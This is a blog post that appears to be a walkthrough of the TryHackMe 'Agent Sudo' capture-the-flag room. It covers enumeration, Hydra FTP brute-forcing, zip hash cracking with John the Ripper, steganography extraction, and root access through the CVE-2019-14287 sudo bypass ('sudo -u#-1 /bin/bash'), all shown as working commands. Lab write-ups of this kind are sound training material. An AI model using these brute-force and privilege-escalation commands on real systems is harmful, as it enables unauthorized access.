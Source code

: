 ```yaml
---
layout: post
title: "TryHackMe - Agent Sudo"
author: "joona"
---
```


![](/images/agentsudo/agentsudo.jpg)
>You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

[Agent Sudo][AgentSudo] is an easy room on TryHackMe created by [DesKel][DesKel].<br/>
It includes some basic enumeration, brute-forcing and CTF methods such as steganography and hash cracking.
The privilege escalation is an interesting vulnerability in the `sudo` command.

### Nmap results<br/>
{% highlight plaintext %}
nmap -A -p- 10.10.53.38 -oA nmap
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
{% endhighlight %}
<br/>

### Website Enumeration
On the website at port 80 we have the following text:<br/>
{% highlight plaintext %}
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
{% endhighlight %}

So the codename is probably a single letter, based on the signature, **Agent R**.<br/>
We are told to use this codename as the user-agent.<br/>

Since we don't know the codename, I used Burp Suite's Intruder to fuzz the correct user-agent.

![](/images/agentsudo/intruder.jpg)<br/>
From the results we can see that letters **R** and **C** gave a different size response that other letters.<br/>

With **User-agent: R** we have nothing interesting, just a warning that this incident will be reported.<br/>

With **User-agent: C** we get redirected to `/agent_C_attention.php` where we have a message:<br/>
{% highlight plaintext %}
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP.
Also, change your god damn password, is weak!

From,
Agent R
{% endhighlight %}

Now we have a username **chris** and it's supposed to have a weak password.
<br/>

### FTP Enumeration
Let's try to brute-force our way into the FTP server with username **chris**.
>hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.53.38 -V -I

And we have a match: **crystal**<br/>

Logging in as chris to the FTP server we have three files:<br/>
- To_agentJ.txt
- cute-alien.jpg
- cutie.png

To_agentJ.txt:
{% highlight plaintext %}
Dear agent J,

All these alien like photos are fake!
Agent R stored the real picture inside your directory.
Your login password is somehow stored in the fake picture.
It shouldn't be a problem for you.

From,
Agent C
{% endhighlight %}
<br/>

### Hash Cracking and Brute-Force
Digging the images for clues, I found with `binwalk cutie.png` that there's a zip file inside it.<br/>
![](/images/agentsudo/cutie.jpg)

Trying to unzip it with `unzip cutie.png` we get an error message:<br/>
`skipping: To_agentR.txt           need PK compat. v5.1 (can do v4.6)`<br/>

I used **7zip**: `7z x cutie.png` to try and extract it but we get a password prompt.<br/>

We can use binwalk to extract the data: `binwalk -e cutie.png`. With this we get
a zip file **8702.zip**.

We can try to brute-force this with **John the Ripper**. First we need to process the
zip file into a format suitable for use with JtR. This can be done with **zip2john**.

{% highlight plaintext %}
zip2john 8702.zip > agent.zip
root@world:~/tryhackme/agentsudo# zip2john 8702.zip > zip.hash
ver 81.9 8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
root@world:~/tryhackme/agentsudod# john zip.hash
...
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
alien            (8702.zip/To_agentR.txt)
...
{% endhighlight %}

Now we can extract the file with 7zip and the password **alien**.

We get the file To_agentR.txt:
{% highlight plaintext %}
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
{% endhighlight %}

'QXJlYTUx' is base64:
{% highlight plaintext %}
root@world:~/tryhackme/agentsudo# echo -n 'QXJlYTUx' | base64 -d
Area51
{% endhighlight %}

Using this password to extract data from **cute-alien.jpg**:
{% highlight plaintext %}
root@world:~/tryhackme/agentsudo# steghide extract -sf cute-alien.jpg
Enter passphrase: Area51
wrote extracted data to "message.txt".
{% endhighlight %}

message.txt:
{% highlight plaintext %}
Hi james,

Glad you find this message. Your login password is hackerrules!
Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
{% endhighlight %}
<br/>

### User Flag & Privilege Escalation
Logging in SSH as **james** with the password **hackerrules!** we get the user_flag.txt and Alien_autospy.jpg.

The room name agent-sudo hints strongly to a Sudo vulnerability.<br/>
Checking the Sudo version with `sudo --version` we see that it's
`1.8.21p2`. Googling vulnerabilities for this version we find [CVE-2019-14287][CVE-2019-14287].
>The vulnerability exists in the implementation of the "sudo" application when processing commands that are configured to run with ALL keyword.<br/>
A local user with privileges to use sudo for specific applications on the system can escalate privileges and run the application as root (even if precisely restricted), if user id "-1" or "4294967295" is used.

So basically this requires that we have sudo right to run any command with ALL keyword. We can check this with `sudo -l`:
{% highlight plaintext %}
james@agent-sudo:~$ sudo -l
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
{% endhighlight %}

So now we can privesc with a simple command:
{% highlight plaintext %}
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
{% endhighlight %}

root.txt:
{% highlight plaintext %}
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe.
Tips, always update your machine.

Your flag is
~~censored~~

By,
DesKel a.k.a Agent R
{% endhighlight %}


[AgentSudo]: https://tryhackme.com/room/agentsudoctf
[DesKel]: https://tryhackme.com/p/DesKel
[CVE-2019-14287]: https://www.cybersecurity-help.cz/vdb/SB2019101501?affChecked=1

